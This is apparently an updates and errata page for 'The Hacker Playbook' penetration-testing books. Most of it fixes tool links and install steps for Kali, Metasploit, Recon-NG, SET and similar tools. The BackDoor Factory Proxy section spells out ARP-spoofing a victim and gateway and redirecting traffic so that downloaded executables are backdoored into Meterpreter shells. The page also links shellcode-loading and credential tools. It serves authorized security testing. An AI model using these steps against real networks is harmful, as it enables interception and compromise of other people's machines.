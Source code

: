 # THP1-2_Updates

The Hacker Playbook 2 Updates
04/30/2017
securepla.net

If you trying to access the old blog hosted on securepla.net, it's now moved to blog.securepla.net. For example, if you are still looking for the Evade code, try: blog.securepla.net/download/evade.zip and http://blog.securepla.net/download/evade.txt (python source code).

Free Radius Update

Looks like the patch is no longer available (wget http://willhackforsushi.com/code/freeradius-wpe-2.1.12.patch) 
New link: 
wget https://raw.githubusercontent.com/brad-anton/freeradius-wpe/master/freeradius-wpe.patch
Also, If you get an error about: radiusd: error while loading shared libraries: libfreeradius-radius-2.1.12.so 
Run: ldconfig

Kali Metasploit Logging

In the new version of Kali 2.0, I think the msfconsole.rc was moved from /root/.msf4/msfconsole.rc to /root/.msf5/msfconsole.rc. To configure Metasploit command logging, use the command: echo "spool /root/msf_console.log" > /root/.msf5/msfconsole.rc 
Thanks Ronnie! 

BackDoor Factory Proxy

It looks like the book was missing a configuration setting for the BackDoor Factory Proxy (BDFProxy). Make sure in the configuration to modify transparentProxy = transparent. Here's what the full installing and implementation on a fresh Kali image will look like:
apt-get update
apt-get install bdfproxy
apt-get install mitmproxy
apt-get install python-openssl
apt-get install openssl

Modify the Config:
vi /etc/bdfproxy/bdfproxy.cfg
Change all HOST IPs to your Kali IP
Change transparentProxy = transparent

Start BDFProxy:
bdfproxy

Start the Meterpreter Resource File:
msfconsole -r /usr/share/bdfproxy/bdfproxy_msf_resource.rc

Arp Stuff:
sysctl -w net.inet.ip_forwarding=1
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
arpspoof -i eth0 -t victim-ip gateway-ip
arpspoof -i eth0 -t gateway-ip victim-ip

And you should be all set. Give it a try by downloading and executing a 32 bit version of Winrar (example: http://www.rarlab.com/rar/wrar521.exe) from your victim host. Watch the shells fall from the sky!
Thanks Joseph from Canada!

BackDoor Factory Installation

In the tools installation page, there is a directory folder missing for The Backdoor Factory. Replace:
cd the-backdoor-factory
with:
cd /opt/the-backdoor-factory
Thanks AJ and Kevin!

Metasploit Start - The Setup Phase

If you are using Kali 2.0, they have removed Metasploit Community/Pro from their image (https://www.kali.org/releases/kali-linux-20-released/). Therefore, they do not have a service called metasploit anymore. 
In the book's setup phase, there is a section about having to start and stop the metasploit service to build the db (service metasploit start). Instead of this command, just run: msfdb init. That will build the database.
Thanks Jack!

Discover Tool - Passive Scan

As Kali 2.0 broke some tools, I've been trying to find fixes for what I can. The Discover module had goofile broken with the update. To fix this issue in Kali 2.0, run the following commands:

wget "https://goofile.googlecode.com/files/goofilev1.5.zip"
unzip -p goofilev1.5.zip goofilev1.5/goofile.py > /usr/bin/goofile && chmod +x /usr/bin/goofile

Thanks Julien! 

Also, I noticed Discover changed their installation script. In the PREGAME - THE SETUP.

OLD:
git clone https://github.com/leebaird/discover.git /opt/discover
cd /opt/discover && ./setup.sh
NEW:
git clone https://github.com/leebaird/discover.git /opt/discover
cd /opt/discover && ./update.sh


Recon-NG

Looks like Kali 2.0 broke Recon-NG. If you get the following error "Module 'recon/domains-contacts/metacrawler' disabled. Dependency required: 'PyPDF2'" in Kali 2.0, run the following commands:

pip install PyPDF2
pip install olefile

Thanks Pamela! 

GitRob

Tiny change configuring GitRob. When running the command: ./gitrob --configure, they now specify the database port. For postgres use port: 5432:

OpenVAS

Looks like a few small changes with Kali 2 on the Setup Phase.
Create Account (instead of openvas-adduser):
openvasmd --user=admin --new-password=admin

Login (instead of gsd):
Go to the browser to: https://127.0.0.1:9392 

DSHashes

Looks like DSHashes might have been removed from ptscripts.googlecode.com svn. 

Download the old archive from https://storage.googleapis.com/google-code-archive-source/v2/code.google.com/ptscripts/source-archive.zip and move dshashes.py to /opt/NTDSXtract/dshashes.py 

All Updates From The Hacker Playbook 1
08/19/2015
Updates from The Hacker Playbook 1: Page 12 for Installing Social Engineering Toolkit
Looks like there was a change to SET on page 12 
Here is the updated GIT Command:
git clone https://github.com/trustedsec/social-engineer-toolkit.git set/ 


Saving Custom Password Lists (Page 10) - 2nd UPDATE
Looks like the old link is now dead:
https://mega.co.nz/#!3VZiEJ4L!TitrTiiwygI2I_7V2bRWBH6rOqlcJ14tSjss2qR5dqo 

Try these other links:
https://mega.co.nz/#!VIwSmYhL!Q_u0io3nSxIeVnquONJcfb7D7aO0_fpi9SxSchR1mTM 
http://www.filedropper.com/crackstation-human-onlytxt 
https://www.dropbox.com/s/ucreldsa3qt1rms/crackstation-human-only.txt.gz?dl=0 
Thanks Andreas for letting me know! 


Start Metasploit on Page 7 The line: "service Metasploit start" should be:
service metasploit start
(Thanks John) 


Changes have been made to PeepingTom and I've had problems with the new version. I have included the old version here: On your Kali Linux Box, run the following commands from a terminal:
cd /opt/
wget http://thehackerplaybook.com/Download/peepingtom.zip
unzip peepingtom.zip
cd peepingtom
chmod +x * 


Huge List of Optional Tools: On your Kali Linux Box, run the following commands from a terminal:
mkdir /opt/gitlist/
cd /opt/gitlist
git clone https://github.com/macubergeek/gitlist.git
cd gitlist
chmod +x gitlist.sh
./gitlist.sh 


Install bypassuac Update The book points to:
wget http://www.secmaniac.com/files/bypassuac.zip
to download the bypassuac files, but the updated link should be:
http://thehackerplaybook.com/Download/bypassuac.zip
Thanks Patrick! 


Nishang has moved: Page 16 Nishang has moved over to github. Instead of:
https://code.google.com/p/nishang/downloads/list
Try:
https://github.com/samratashok/nishang

Thanks Don! 


SMBExec Update - Page 8 SMBExec updated and has a new Git Repo. So instead of:

git clone https://github.com/brav0hax/smbexec.git 
Try: 
git clone https://github.com/pentestgeek/smbexec.git 


PowerShell Invoke-Shellcode - Meterpreter If you've been hard coding your Invoke-Shellcode.ps1 files to download and execute from github (Originally found here:https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1), make sure you grab the newest one as the original is not working (on purpose). As stated by mattifestation, you shouldn't blindly run a remote powershell script from github. If you need to, fork it! 
https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke--Shellcode.ps1 


Obscure System's Post Exploitation Link Fixed On Page 121 Obscure System's Post Exploitation:
http://bit.ly/18dvL0I 
Thanks Joe 


Index to Hacker Playbook Thanks to Joe, he put together an index for The Hacker Playbook!!! 
http://www.cise.ufl.edu/~jnw/thehackerplaybookindex/ 


Free Radius Update - Page 205 Looks like free radius changed their website. Change:
wget ftp://ftp.freeradius.org/pub/freeradius/freeradius-server-2.1.12. tar.bz2

To:

wget ftp://ftp.freeradius.org/pub/freeradius/old/freeradius-server-2.1.12.tar.bz2

Thanks Jason!

Mimikatz Binary Update:

https://github.com/gentilkiwi/mimikatz/releases/latest

Get In Touch
If you would like to get in touch with the author or have general inquiries about the book

book@thehackerplaybook.com
